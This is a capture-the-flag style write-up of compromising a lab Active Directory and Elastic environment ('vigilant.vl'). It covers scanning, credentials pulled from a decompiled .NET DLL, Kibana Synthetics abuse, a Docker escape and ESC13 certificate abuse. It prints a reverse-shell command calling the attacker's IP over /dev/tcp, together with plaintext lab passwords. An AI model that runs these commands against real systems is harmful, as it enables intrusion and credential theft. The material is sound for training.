# Initial enumeration

## Nmap Scan
10.10.216.69
10.10.216.70

    Nmap scan report for 10.10.216.69
    Host is up (0.071s latency).
    Not shown: 987 filtered tcp ports (no-response)
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-19 02:16:27Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vigilant.vl0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC.vigilant.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.vigilant.vl
    | Not valid before: 2024-03-24T10:57:36
    |_Not valid after:  2025-03-24T10:57:36
    |_ssl-date: TLS randomness does not represent time
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: vigilant.vl0., Site: Default-First-Site-Name)
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=DC.vigilant.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.vigilant.vl
    | Not valid before: 2024-03-24T10:57:36
    |_Not valid after:  2025-03-24T10:57:36
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vigilant.vl0., Site: Default-First-Site-Name)
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=DC.vigilant.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.vigilant.vl
    | Not valid before: 2024-03-24T10:57:36
    |_Not valid after:  2025-03-24T10:57:36
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: vigilant.vl0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC.vigilant.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.vigilant.vl
    | Not valid before: 2024-03-24T10:57:36
    |_Not valid after:  2025-03-24T10:57:36
    |_ssl-date: TLS randomness does not represent time
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info: 
    |   Target_Name: VIGILANT
    |   NetBIOS_Domain_Name: VIGILANT
    |   NetBIOS_Computer_Name: DC
    |   DNS_Domain_Name: vigilant.vl
    |   DNS_Computer_Name: DC.vigilant.vl
    |   Product_Version: 10.0.20348
    |_  System_Time: 2024-07-19T02:17:07+00:00
    |_ssl-date: 2024-07-19T02:17:47+00:00; -14s from scanner time.
    | ssl-cert: Subject: commonName=DC.vigilant.vl
    | Not valid before: 2024-03-23T10:54:32
    |_Not valid after:  2024-09-22T10:54:32
    9200/tcp open  ssl/rtsp
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=instance
    | Subject Alternative Name: IP Address:127.0.0.1, DNS:dc.vigilant.vl, DNS:localhost
    | Not valid before: 2024-03-02T17:56:10
    |_Not valid after:  2027-03-02T17:56:10
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 401 Unauthorized
    |     WWW-Authenticate: Basic realm="security" charset="UTF-8"
    |     WWW-Authenticate: Bearer realm="security"
    |     WWW-Authenticate: ApiKey
    |     content-type: application/json
    |     content-length: 529
    |     {"error":{"root_cause":[{"type":"security_exception","reason":"missing authentication credentials for REST request [/nice%20ports%2C/Tri%6Eity.txt%2ebak]","header":{"WWW-Authenticate":["Basic realm="security" charset="UTF-8"","Bearer realm="security"","ApiKey"]}}],"type":"security_exception","reason":"missing authentication credentials for REST request [/nice%20ports%2C/Tri%6Eity.txt%2ebak]","header":{"WWW-Authenticate":["Basic realm="security" charset="UTF-8"","Bearer realm="security"","ApiKey"]}},"status":401}
    |   GetRequest: 
    |     HTTP/1.0 401 Unauthorized
    |     WWW-Authenticate: Basic realm="security" charset="UTF-8"
    |     WWW-Authenticate: Bearer realm="security"
    |     WWW-Authenticate: ApiKey
    |     content-type: application/json
    |     content-length: 459
    |     {"error":{"root_cause":[{"type":"security_exception","reason":"missing authentication credentials for REST request [/]","header":{"WWW-Authenticate":["Basic realm="security" charset="UTF-8"","Bearer realm="security"","ApiKey"]}}],"type":"security_exception","reason":"missing authentication credentials for REST request [/]","header":{"WWW-Authenticate":["Basic realm="security" charset="UTF-8"","Bearer realm="security"","ApiKey"]}},"status":401}
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: HEAD,DELETE,GET
    |     X-elastic-product: Elasticsearch
    |     content-type: text/plain; charset=UTF-8
    |     content-length: 0
    |   RTSPRequest: 
    |     RTSP/1.0 400 Bad Request
    |     X-elastic-product: Elasticsearch
    |     content-type: application/json
    |     content-length: 221
    |_    {"error":{"root_cause":[{"type":"illegal_argument_exception","reason":"Unexpected http protocol version: RTSP/1.0"}],"type":"illegal_argument_exception","reason":"Unexpected http protocol version: RTSP/1.0"},"status":400}
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port9200-TCP:V=7.94SVN%T=SSL%I=7%D=7/18%Time=6699CC9A%P=x86_64-pc-linux
    SF:-gnu%r(GetRequest,29C,"HTTP/1\.0\x20401\x20Unauthorized\r\nWWW-Authenti
    SF:cate:\x20Basic\x20realm=\"security\"\x20charset=\"UTF-8\"\r\nWWW-Authen
    SF:ticate:\x20Bearer\x20realm=\"security\"\r\nWWW-Authenticate:\x20ApiKey\
    SF:r\ncontent-type:\x20application/json\r\ncontent-length:\x20459\r\n\r\n{
    SF:\"error\":{\"root_cause\":\[{\"type\":\"security_exception\",\"reason\"
    SF::\"missing\x20authentication\x20credentials\x20for\x20REST\x20request\x
    SF:20\[/\]\",\"header\":{\"WWW-Authenticate\":\[\"Basic\x20realm=\\\"secur
    SF:ity\\\"\x20charset=\\\"UTF-8\\\"\",\"Bearer\x20realm=\\\"security\\\"\"
    SF:,\"ApiKey\"\]}}\],\"type\":\"security_exception\",\"reason\":\"missing\
    SF:x20authentication\x20credentials\x20for\x20REST\x20request\x20\[/\]\",\
    SF:"header\":{\"WWW-Authenticate\":\[\"Basic\x20realm=\\\"security\\\"\x20
    SF:charset=\\\"UTF-8\\\"\",\"Bearer\x20realm=\\\"security\\\"\",\"ApiKey\"
    SF:\]}},\"status\":401}")%r(HTTPOptions,89,"HTTP/1\.0\x20200\x20OK\r\nAllo
    SF:w:\x20HEAD,DELETE,GET\r\nX-elastic-product:\x20Elasticsearch\r\ncontent
    SF:-type:\x20text/plain;\x20charset=UTF-8\r\ncontent-length:\x200\r\n\r\n"
    SF:)%r(RTSPRequest,150,"RTSP/1\.0\x20400\x20Bad\x20Request\r\nX-elastic-pr
    SF:oduct:\x20Elasticsearch\r\ncontent-type:\x20application/json\r\ncontent
    SF:-length:\x20221\r\n\r\n{\"error\":{\"root_cause\":\[{\"type\":\"illegal
    SF:_argument_exception\",\"reason\":\"Unexpected\x20http\x20protocol\x20ve
    SF:rsion:\x20RTSP/1\.0\"}\],\"type\":\"illegal_argument_exception\",\"reas
    SF:on\":\"Unexpected\x20http\x20protocol\x20version:\x20RTSP/1\.0\"},\"sta
    SF:tus\":400}")%r(FourOhFourRequest,2E2,"HTTP/1\.0\x20401\x20Unauthorized\
    SF:r\nWWW-Authenticate:\x20Basic\x20realm=\"security\"\x20charset=\"UTF-8\
    SF:"\r\nWWW-Authenticate:\x20Bearer\x20realm=\"security\"\r\nWWW-Authentic
    SF:ate:\x20ApiKey\r\ncontent-type:\x20application/json\r\ncontent-length:\
    SF:x20529\r\n\r\n{\"error\":{\"root_cause\":\[{\"type\":\"security_excepti
    SF:on\",\"reason\":\"missing\x20authentication\x20credentials\x20for\x20RE
    SF:ST\x20request\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\",\"header\"
    SF::{\"WWW-Authenticate\":\[\"Basic\x20realm=\\\"security\\\"\x20charset=\
    SF:\\"UTF-8\\\"\",\"Bearer\x20realm=\\\"security\\\"\",\"ApiKey\"\]}}\],\"
    SF:type\":\"security_exception\",\"reason\":\"missing\x20authentication\x2
    SF:0credentials\x20for\x20REST\x20request\x20\[/nice%20ports%2C/Tri%6Eity\
    SF:.txt%2ebak\]\",\"header\":{\"WWW-Authenticate\":\[\"Basic\x20realm=\\\"
    SF:security\\\"\x20charset=\\\"UTF-8\\\"\",\"Bearer\x20realm=\\\"security\
    SF:\\"\",\"ApiKey\"\]}},\"status\":401}");
    Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2024-07-19T02:17:12
    |_  start_date: N/A
    |_clock-skew: mean: -14s, deviation: 0s, median: -14s

    Nmap scan report for 10.10.216.70
    Host is up (0.070s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 96:c0:d7:90:bb:cc:77:16:c6:e1:a5:03:f1:ca:5c:25 (ECDSA)
    |_  256 12:23:db:bb:d8:56:3e:14:19:71:04:34:2c:22:49:65 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Vigilant Cybersecurity
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

I found nothing important at websites. Then i realized i can access smb as guest. let see

    smb: \IT_Support\ADAuditReports\> ls
    .                                   D        0  Sun Mar  3 02:15:36 2024
    ..                                  D        0  Sun Mar  3 01:27:12 2024
    Password_Strength_Report_encrypted.pdf      A     6951  Sun Mar  3 02:08:02 2024

                    7175679 blocks of size 4096. 2196316 blocks available
    smb: \IT_Support\ADAuditReports\> get Password_Strength_Report_encrypted.pdf 
    getting file \IT_Support\ADAuditReports\Password_Strength_Report_encrypted.pdf of size 6951 as Password_Strength_Report_encrypted.pdf (24.2 KiloBytes/sec) (average 24.2 KiloBytes/sec)



    ➜  vigilant exiftool Password_Strength_Report_encrypted.pdf 
    ExifTool Version Number         : 12.76
    File Name                       : Password_Strength_Report_encrypted.pdf
    Directory                       : .
    File Size                       : 7.0 kB
    File Modification Date/Time     : 2024:07:18 22:36:34-04:00
    File Access Date/Time           : 2024:07:18 22:40:12-04:00
    File Inode Change Date/Time     : 2024:07:18 22:36:34-04:00
    File Permissions                : -rw-r--r--
    Error                           : File format error

its look like encyrpted but after some enumuration its not to be to hard decyrpt. with some RE skills.

## Decrypting the PDF File By Analyzing the Encrypt function
Since this report was generated by ADAudit tool, it's possible that there might be something we need to grab from there, downloading ADAudit.dll file from share



    ➜  vigilant file ADAudit.dll 
    ADAudit.dll: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections

I always use [dotPeek](https://www.jetbrains.com/decompiler/) for decompile .Net files. but can recommend dnsPY too.

.png>)

I found some creds from here lets check out with crackmapexec.

    ➜  vigilant crackmapexec smb 10.10.216.69-70 -u svc_auditreporter -p 'DeVeLoPeR712'
    SMB         10.10.216.69    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:vigilant.vl) (signing:True) (SMBv1:False)
    SMB         10.10.216.69    445    DC               [+] vigilant.vl\svc_auditreporter:DeVeLoPeR712 

ye creds is work but we dont know yet how enc pdf files lets check more.

i found nothing actually so decide to install ADAuditLib.dll for analyze.

.png>)

finally found it lets vist chatgpt and it can give us code for decyrpt it.

https://chatgpt.com/share/501cee99-dd13-4065-8038-9c1e7d17f8be

yeah its look like work let see.

    sudo apt update
    sudo apt install -y dotnet-sdk-6.0
    dotnet new console -n ADAuditLib
    cd ADAuditLib
    dotnet build
    ➜  ADAuditLib dotnet run decrypt Password_Strength_Report_encrypted.pdf 
    ➜  ADAuditLib ls
    ADAuditLib.csproj  Password_Strength_Report_encrypted.pdf  Program.cs  bin  decrypt.pdf  obj

this is my steps for using this code.

and we found creds successfully.



lets try them on crackmapexec.

    SMB         10.10.216.69    445    DC               [-] vigilant.vl\Pamela.Clark:<redacted> STATUS_PASSWORD_EXPIRED 

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Alex.Powell:<redacted> 

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Edwin.Dixon:<redacted>

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Daniel.Washington:<redacted>

its work for smb but i didnt see anything different lets see first bloodhound.

    ➜  vigilant bloodhound-python -d 'vigilant.vl' -u 'svc_auditreporter' -p 'DeVeLoPeR712' -c all -ns 10.10.216.69



pamela is member of techsupport.

## Elastic Search Pentest

and we know from nmap scan we have an kibana lets try her pass on kibana.

http://dc.vigilant.vl:5601/app/home

we cann succesfully login here. (its could be way to go ssh on 70 so it could be really important.)



yeah as i said before we can manipulate here for linux servers.



lets try to edit monitor.



after we got api key we are ready for create project.



thats actually how i create project after some changes we are ready for reverse shell.



that was my way to use u may wanna use different ways.

    ➜  vigilant nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.216.70] 53440
    ls
    example.journey.ts
    node_modules
    package.json

and we got shell as succesfully.

## basic commands.

    sudo npm install -g @elastic/synthetics 
    npx @elastic/synthetics --ignore-https-errors init project-vigilant
    npx @elastic/synthetics push



we can learn here we are in the docker lets upload [deepce.sh](https://github.com/stealthcopter/deepce) and got shell as root.

    elastic-agent@srv:/tmp$ bash deepce.sh --exploit SOCK --command "/bin/bash -c 'bash -i >& /dev/tcp/10.8.2.152/9001 0>&1'"



found here hash and crack it. it will take time too much

    ➜  journeys john hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>     (?) 

but i decided to this password is expired i need to unexpired it.

    SMB         10.10.216.69    445    DC               [-] vigilant.vl\Gabriel.Stewart:<redacted> STATUS_PASSWORD_EXPIRED 

u may wanna use it ([STATUS_PASSWORD_EXPIRED](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)) for unexpired password.

## ESC13

    ➜  journeys certipy req -ca vigilant-CA -template VigilantAdmins -target dc.vigilant.vl -username 'Gabriel.Stewart' -password 'osmanirem.361!irem' -dc-ip 10.10.248.117 -key-size 4096
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 6
    [*] Got certificate with UPN 'Gabriel.Stewart@vigilant.vl'
    [*] Certificate object SID is 'S-1-5-21-2615182196-3196294898-3079774137-1334'
    [*] Saved certificate and private key to 'gabriel.stewart.pfx'

and got hash with this command

    ➜  journeys certipy auth -pfx 'gabriel.stewart.pfx' -username 'gabriel.stewart' -domain vigilant.vl -dc-ip 10.10.248.117
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: gabriel.stewart@vigilant.vl
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'gabriel.stewart.ccache'
    [*] Trying to retrieve NT hash for 'gabriel.stewart'
    [*] Got hash for 'gabriel.stewart@vigilant.vl': aad3b435b51404eeaad3b435b51404ee:<redacted>

